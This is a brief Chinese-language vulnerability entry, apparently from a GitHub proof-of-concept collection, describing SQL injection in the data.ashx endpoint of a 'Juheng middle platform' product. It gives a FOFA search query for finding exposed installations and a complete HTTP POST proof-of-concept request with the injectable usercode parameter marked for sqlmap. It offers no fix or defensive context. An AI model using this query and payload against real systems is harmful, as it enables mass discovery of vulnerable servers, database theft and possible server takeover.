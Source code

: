 ## 山东聚恒网络技术有限公司聚恒中台data.ashx存在SQL注入漏洞

山东聚恒网络技术有限公司聚恒中台sysplat/dataget/data.ashx?type=sendvalidatecode存在SQL注入漏洞，可对数据库获取敏感信息，也可获取服务器权限。



## fofa

```
body="sysplat/dataget/data.ashx?type=sendvalidatecode"
```



## poc

```
POST /sysplat/dataget/data.ashx?type=sendvalidatecode HTTP/1.1
Host: 
Content-Length: 20
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

usercode=1*&mobile=2
```

